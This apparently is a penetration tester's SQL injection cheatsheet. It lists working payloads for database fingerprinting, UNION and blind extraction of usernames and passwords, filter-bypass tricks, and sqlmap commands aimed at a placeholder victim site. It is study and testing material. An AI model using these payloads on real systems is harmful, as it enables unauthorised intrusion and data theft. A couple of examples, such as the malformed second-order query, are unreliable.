 # SPIROS (SQL Cheatsheet)

## SQL Cheatsheet:

### Determining which type of DB

|Type of DB|Method|
|---|---|
|Oracle|`SELECT banner FROM v$version`, `SELECT version FROM v$instance`|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|

### Commenting in SQL

![commenting diagram](img/sql_cheatsheet/sql%20comments.jpg)

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.
> When using `#` as a comment for MySQL, there's no need to add a space after.

### Overview for SQLi

|No.|Steps|Method|
|---|---|---|
|1|Identify instances where application access DB| Look at URL param, cookies, POST data, HTTP headers|
|2|Try injecting SQL| Start with single quotes, concatenator characters, eg: `' 'FOO`|
|3|Determine no. of cols| `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` ... until there's no error|
|4.1|Determine which cols have string data type| `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` ... until there's no error |
|4.2|Determine which cols have numeric data type| `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`... until there's no error|
|4.3|Use conditional responses if there's no direct method of transmitting data|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`|
|4.4.1|Use conditional errors if there's no noticeable effect on application behavior|`SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username|
|4.4.2|Conditional errors (time delay)|`' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server's response.
|5|Extracting table and cols name|`' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`|
|6.1|Dumping DB using multi cols with string data type|`' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`|
|6.2|Dumping DB using 1 col with string data type|`SELECT CONCAT(username,':',password), NULL, NULL from users -- -`|
|6.3|Dumping DB using multi cols with numeric data type|`' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., 'q')|
|6.4|Dumping DB using conditional responses|`admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter 'q'|

### Bypassing filters

|Types of blacklisting filter|Ways to bypass|
|---|---|
|Strings|Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`|
|Comments|Use `' OR 'a'='a` instead of `' OR 1=1 -- -`|
|Keywords|Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54`

### SQLmap

|Types of attack|Methods|
|---|---|
|POST request|`sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs`|
|GET request|`sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`|
|Using Request file from Burpsuite|`sqlmap -r <path to .req file> -p user –dbs`|

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```
### Second Order SQLi

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

### Good resources

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)